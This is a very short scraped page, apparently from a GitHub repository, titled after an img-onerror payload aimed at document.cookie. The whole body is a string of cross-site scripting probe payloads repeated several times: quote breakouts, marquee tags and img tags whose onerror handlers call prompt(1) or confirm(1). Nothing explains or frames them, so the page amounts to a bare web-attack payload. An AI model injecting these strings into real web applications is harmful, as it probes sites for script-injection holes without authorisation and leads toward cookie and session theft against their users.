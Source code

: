 ---img-src-x-onerror-prompt-document.cookie---
==============================================

">&lt;img src=x onerror=prompt(1);>'">><marquee><img src=x onerror=confirm(1)>'">><marquee><img src=x onerror=confirm(1)>'">><marquee><img src=x onerror=confirm(1)>'">><marquee><img src=x onerror=confirm(1)>
